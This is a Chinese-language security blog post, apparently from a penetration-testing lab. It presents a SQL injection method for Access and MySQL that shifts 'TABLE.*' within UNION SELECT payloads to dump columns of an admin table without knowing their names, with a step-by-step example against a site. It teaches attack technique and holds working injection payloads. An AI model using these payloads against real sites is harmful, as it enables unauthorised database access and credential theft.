 ```yaml
---
layout: post
author: Vulkey_Chen
title: "移位溢注：告别依靠人品的偏移注入"
date: 2017-03-08
categories: 移位溢注 偏移注入
permalink: /archives/2017-03-08/1
description: "在Access数据库类型注入的时候，我们获取不到列名(前提是有表名)，一般会选择使用偏移注入，但是这种注入方式往往借助的是个人的人品，且步骤繁琐....."
---
```


## **介绍**：

在Access数据库类型注入的时候，我们获取不到列名(前提是有表名)，一般会选择使用偏移注入，但是这种注入方式往往借助的是个人的人品，且步骤繁琐。本文中我们研究了一种新的注入技术让“偏移注入不在需要人品”。在这里定义这种注入技术为：“移位溢注技术”。
它适用于ACCESS和MYSQL（任何版本）
<!-- more -->

## **正文：**

我们先来看看普通的偏移注入步骤：

```
1.判断注入点
2.order by 判断长度
3.判断表名
4.联合查询
5.获取表中列数：**union select 1,2,3,4,..,\* from TABLE**
6.开始偏移注入：**TABLE as a inner join TABLE as b ona.id=b.id**
```

由于步骤6的方法过于需要人品值，且语句繁琐，因此在这里，我们研究新的注入技术：

首先来看看步骤6语句的整体意思：

步骤6的语句，**表示给TALBE取2个别名，然后分别用别名取查询TALBE的内容（表a和表b）；而on a.id = b.id 这样的条件是为了满足语法需求，实际并没有作用，因为相同内容的表，相同字段内容一定相同。**

这时，我们再回过头来看步骤5：

**由于联合查询中select后面添加数字的目的是为了让联合查询返回接结果和网站正常查询返回的结果的列数一致（不一致数据库会报错，页面无法显示），且\*表示通配符，可以表示整个表格所有列；因此这里通过数字来占位，并使用\*来替代TABLE中的所有列，使得联合查询可以完成，并推算出\*的值。**

这时候我们继续研究偏移注入的整体公式方法，发现即使使用多级偏移注入也需要一定的概率(人品值)才可以得到想要的结果，所以我们就尝试研究新的方法能不能替换这种不固定概率的方法。

现在我们重新整理一下SQL语句，从联合查询开始：

1.原union语句：**union select 1,2,3,..,p..,n from TABLE**

（p=页面爆出的数字，可能有多个p1,p2..；n=原网站查询的总列数；TALBE=我们获得的表名；下面开始就使用上述字母的定义）

2.新语句：

**union select 1,2,3,..,p-1,TABLE.\*,p+k,..,nfrom TABLE where** **字段名** **=** **字段内容**

--在p的位置爆出TALBE表中第一个字段的内容（其他位置还可能爆出更多内容）

（这里如果存在已知字段名可以使用，没有就不用，一般id这个字段时存在的，可以使用id = 1来显示第一行）

**union select1,2,3,..,p-2,TABLE.\*,p+k-1,..,n from TABLE where** **字段名** **=** **字段内容**

--在p的位置爆出TALBE表中第二个字段的内容（其他位置还可能爆出更多内容）

**union select 1,2,3,..,p-3,TABLE.\*,p+k-2,..,nfrom TABLE where** **字段名** **=** **字段内容**

--在p的位置爆出TALBE表中第三个字段的内容（其他位置还可能爆出更多内容）

注：这里一定是TALBE.*而不是*

3.1 **以此类推可以爆出TALBE的每一列内容。**

3.2 **如果p<k则没法爆出p+1列至k列的内容，如果n-p<k则无法爆出第1列至k-(n-p)列**。

## **原理：**

1.由原语句：**union select 1,2,3,..,p..,n-k,\* from TABLE** 可以得出该联合查询的目的是构造和原网站相同列数的查询结构，使得页面上可以显示对应的数字；这条语句相当于是做了两次查询并将它们的结果合并，第一次做了**select 1,2,3,..,n-k from TALBE** ，第二次做了**select \* from TALBE** ，然后将它们的结果合并。

这可以参考mysql的语句：**select 1,2,3,4,5,admin.\* from admin;**

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x00.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x01.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x02.jpg)

2.只要满足原理1的要求，保障联合查询的结果和原网站查询的结果列数一致即可；因此可以将TALBE.*向前移动至页面显示的数字处来爆出TALBE列中的内容。

这可以参考mysql的语句：

```mysql
select 1,2,3,4,5,6,7,8,9,10 from newswhere id =1 union select 1,2,3,4,5,6,7,admin.* from admin;
select 1,2,3,4,5,6,7,8,9,10 from newswhere id =1 union select 1,2,3,admin.*,7,8,9,10 from admin;
```

**注：假设数字4、5在页面显示。**

由下图可知，其实数据已近查询出来，但是页面没有显示，这个是通过平移查询结果到页面显示的数字上去，即可爆出敏感字段。

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x03.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x04.jpg)

## **例子：**

**步骤1：**判断注入点是否存在

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x05.jpg)

步骤2：

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x06.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x07.jpg)

**步骤3：**获得表名(必备条件)   and exists(select * from admin)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x08.jpg)

**步骤4：**获取不了列名（当尝试多个常用字段名以后，最终还是发现无法获得字段名）

**步骤5：**使用联合查询(union select)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x09.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x010.jpg)

步骤6：使用新注入技术方法

（1）获取admin表的列数：

```mysql
UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,*from admin #--返回错误页面

UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,*from admin #--返回错误页面

UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,*from admin #--返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,*from admin #--返回错误页面
.....

UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,*from admin #--返回步骤5页面，因此admin表的列数为6
```

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x011.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x012.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x013.jpg)

（2）由于网页中包含连续数字，表示可以显示连续的查询结果，构造SQL语句查询前四列第一行。

```mysql
UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.*,34,35from admin
```

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x014.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x015.jpg)

```mysql
UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.*,34,35from admin where id = 3
```

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x016.jpg)

## **总结**

在这里我们命名这种新注入技术为"移位溢注"。由此如果MYSQL小于5.0的情况下所具备的条件和ACCESS一样，也可以使用此方法注入，如果是MYSQL大于5.0的版本，使用此方法可以省去获得列名的步骤。

**文章研究：**米斯特安全攻防实验室 MST.Lab-gh0stkey & Seagull